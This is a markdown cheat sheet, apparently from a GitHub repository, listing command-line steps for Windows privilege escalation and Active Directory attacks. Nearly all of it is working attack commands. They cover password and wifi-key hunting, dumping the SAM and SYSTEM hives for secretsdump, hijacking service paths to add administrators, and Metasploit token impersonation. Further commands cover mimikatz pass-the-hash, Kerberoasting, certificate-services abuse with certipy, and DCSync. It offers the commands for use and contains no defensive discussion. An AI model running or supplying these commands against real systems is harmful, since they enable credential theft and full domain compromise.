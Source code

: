 ## SYSTEM ENUMERATION
```cmd
systeminfo
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
hostname
wmic qfe
wmic logicaldisk get caption,filesystem,freespace,size,volumename

```
## USER ENUMERATION
```cmd
whoami /priv
whoami /groups
net user
net user <username>
net localgroup
```


## NETWORK ENUMERATION
```cmd
ipconfig /all
arp -a
route print
netstat -ano
```

## HUNTING PASSWORDS
```cmd
findstr /si password *.txt
netsh wlan show profile [SSID] key=clear
```

## FIREWALL / ANTIVIRUS
```cmd
sc query windefend
sc queryex type=service
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config

```

## WINDOWS SUBSYSTEM FOR LINUX
```cmd
where /R C:\windows bash.exe
where /R C:\windows wsl.exe

```
## POTATO ATTACK
```sh
multi/script/web_delivery
run post/multi/recon/local_exploit_suggester
use exploit/windows/local/ms16_075_reflection
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
getsystem
```
## RUNAS
```cmd
cmdkey /list
C:\Windows\System32\runas.exe /user:[domain/user] /savecred "C:\Windows\System32\cmd.exe /c [command] > [output]"
```
## REGSVC ACL
```cmd
reg save HKLM\SAM SAM --> download sam
reg save HKLM\SYSTEM SYSTEM  --> download system

	- secretsdump.py local -sam sam -system system

Get-Acl -Path hklm:\System\CurrentControlSet\services\ | format-list
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
sc start regsvc
```

## STARTUP APPS
```cmd
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

## DLL HIJACKING
```cmd
sc stop <service> & sc start <service>
ProcMon filter: "NAME NOT FOUND" and ends with ".dll"
```

## BINARY PATHS
```cmd
accesschk64.exe -uwcv Everyone *
sc qc <service>
sc config <service> binpath= "net localgroup administrators [user] /add"
sc stop <service> & sc start <service>
```

## UNQUOTED SERVICE PATHS
## (Run PowerUp.ps1 and replace files in the unquoted directory path)

## CVE-2019-1388
## Follow the manual GUI steps for privilege escalation.

## POWERSHELL SCRIPTS
```powershell
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope LocalMachine
.\PowerUp.ps1
Invoke-AllChecks
```

## AD ENUMERATION (NO CREDENTIALS)
```cmd
net user /DOMAIN
net group /DOMAIN
net share
net localgroup
```

## AD ENUMERATION (WITH CREDENTIALS)
```sh
GetNPUsers.py domain/user -dc-ip <IP> -no-pass
ldapsearch -x -H ldap://<IP> -b "dc=domain,dc=com"
```
## KERBEROASTING
GetSPN.ps1
Invoke-Kerberoast.ps1

## OVERPASS THE HASH
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTLM_HASH> /run:PowerShell.exe

## PSExec
psexec.py <domain>/<user>:<pass>@<IP>

## AD CS ATTACK
certipy find -dc-ip <IP> -u <user> -p <pass>
certipy req -ca <CA_NAME> -target <DC> -u <user> -p <pass>
certipy auth -pfx <admin.pfx> -dc-ip <IP>
evil-winrm -i <target> -u administrator -H <HASH>

## DCSYNC ATTACK
secretsdump.py <domain>/<user>@<IP> -hashes <HASH>
rpcclient -U "" <IP>